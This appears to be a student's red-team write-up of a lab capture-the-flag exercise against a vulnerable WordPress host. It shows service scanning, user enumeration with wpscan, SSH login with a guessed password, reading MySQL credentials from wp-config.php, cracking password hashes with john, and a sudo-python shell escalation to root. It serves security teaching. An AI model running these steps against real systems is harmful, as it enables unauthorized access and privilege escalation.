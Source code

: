 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap 192.168.1.0/24
```
![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/nmap%20cider%20scan.png)

<br>

This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22/tcp open ssh (service) OpenSSH 6.7p1 Debian 5+deb8u4
  - Port 80/tcp open http (service) Apache httpd 2.4.10 ((Debian))
  - Port 111/tcp open rpcbind (service) 2-4 (RPC #100000)
  - Port 139/tcp open netbios-ssn (services) Samba smbd 3.X - 4.X
  - Port 445/tcp open netbios-ssn (services) Samba smbd 3.X - 4.X


The following vulnerabilities were identified on Target 1:
- Target 1
  - CVE-2021-28041 open SSH (Severity: High)
  - CVE-2017-15710 Apache httpd 2.4.10 (Severity: High)
  - CVE-2017-8779 exploit on open rpcbind port could lead to remote DoS (Severity: High)
  - CVE-2017-7494 Samba NetBIOS (Severity: Critical)


![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/nmap%20-sV%20192.168.1.110.png)

<br>

### Critical Vulnerabilities:
The following vulnerabilities were identified on Target 1:
 
 - Network Mapping
   - nmap scanned for open ports on a designated IP address
   - Attacker can devise an attack based on open ports
 
 - Unsalted Password Hash
   - wpscan is used to gain username information 
   - Attackers gain access the web server

- Weak User Password
  - A user account had a weak password, which was found via guessing
  - Attacker is able to ssh into web server with weak username and password

- Access MySQL Database
  - Attackers discover a file containing MySQL database credentials
  - Attacker can gain access to MySQL database with acquired credentials 

- MySQL Password Extraction
  - Password hashes for user accounts were found by browsing through MySQL tables
  - Attacker can extract password hashes and crack them via john the ripper

- Misconfigured User Privilege Escalation
  - Steven’s account has sudo privileges for python
  - Steven’s Python privileges used to escalate to root   
 
### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:

- Enumerated WordPress site Users with WPScan to obtain username michael, used SSH to get user shell
  - Command used: wpscan --url http://192.168.1.110/wordpress -eu

![Screenshot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/wpscan%20-eu.png)
![Screenshot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/wpscan%20-eu%202.png)

<br>

- Visited the IP address of the target: 192.168.1.110 over HTTP port 80

![Screenshot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/192.168.1.110%20browswer.png)

<br>

- Target 1
  - `flag1.txt`: b9bbcb33e11b80be759c4e844862482d
   - **Exploit Used**
   
    - ssh into Michael's account and look through files in /var/www
    - Command: ssh michael@192.168.1.110
    - The username and password for Michael's account is identical: michael
    - Command: cd ../../var/www
    - Command: ls 
    - Command: grep -RE flag html
     
  
  ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/var:www%20and%20ls.png)
  ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/grep%20command%20flag%201.png)
  ![ScreenShot](flag1)

<br>


  - `flag2.txt`: fc3fd58dcdad9ab23faca6e9a36e581c
   - **Exploit Used**
     - Command: ssh michael@192.168.1.110 
     - The username and password for Michael's account is identical: michael
     - Command: locate *flag*
     - Command: cat /var/www/flag2.txt
  
  
  ![ScreenShot](locate *flag*)
  ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/flag2.txt.png) 

<br>


  - `flag3.txt`: afc01ab56b50591e7dccf93122770cd2
   - **Exploit Used**
     - Continued using michael shell to find the MySQL database password, logged into MySQL database, and found Flag 3 in wp_posts table.
     - Command: ls /var/www/html/wordpress/
  
  
  ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/ls%20wordpress:.png)
  
<br>

   - Command: cat /var/www/html/wordpress/wp-config.php
  
  
  ![ScreenShot](DB Username & Password)

<br>

   - Used the credentials to log into MySQL and dump WordPress user password hashes.
    
     - DB_NAME: wordpress
     - DB_USER: root
     - DB_PASSWORD: R@v3nSecurity
     - Command: mysql -u root -p
 
 
 ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/mysql%20-u%20root%20-p%20command.png)

<br>

   - Search MySQL database for Flag 3 and Wordpress user password hashes:

     - Flag 3 found in wp_posts.
     - Password hashes found in wp_users.
     - Command: show databases;
     - Command: use wordpress;
  
  
  ![ScreenShot](show DB and use wordpress)
  
<br>

   - Command: show tables;
  
  
  ![ScreenShot](show tables;)
  
<br>

   - Command: SELECT * FROM wp_posts;	
  
  
  ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/SELECT%20*%20FROM%20wp_posts%201.png)
  ![ScreenShot](select * from wp_posts 2)

<br>

   - Screenshot of Wordpress user password hashes:
    
     - Command: SELECT * FROM wp_users;
  
  
  ![ScreenShot](select * from wp_users;)

<br>

  - `flag4.txt`: 715dea6c055b9fe3337544932f2941ce
   - **Exploit Used**
     - Used john to crack the password hash obtained from MySQL database, secured a new user shell as Steven, escalated to root.
     - Cracking the hashed password using john.
     - Copied password hash from MySQL into ~/root/wp_hashes.txt and cracked with john to discover Steven’s password: pink84.
     - Command: john --show wp_hashes.txt


![ScreenShot](john command)

<br>

   - Secure a user shell as the user whose password you cracked.
    
     - Command: ssh steven@192.168.1.110
     - Password: pink84
     - Escalating to root:
     - Command: sudo -l  
 
 
 ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/sudo%20-l.png)

<br>
   
   - Command: sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’
  
  
  ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/sudo%20python%20-c%20'import%20pty%3Bpty.spawn(%22:bin:bash%22)'.png)

<br>

   - Search for the root directory for Flag 4.
   
     - Command: cd /root/
     - Command: ls
     - Command: cat flag4.txt


![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/cat%20flag4.txt%201.png)
![ScreenShot](cat flag4.txt 2)

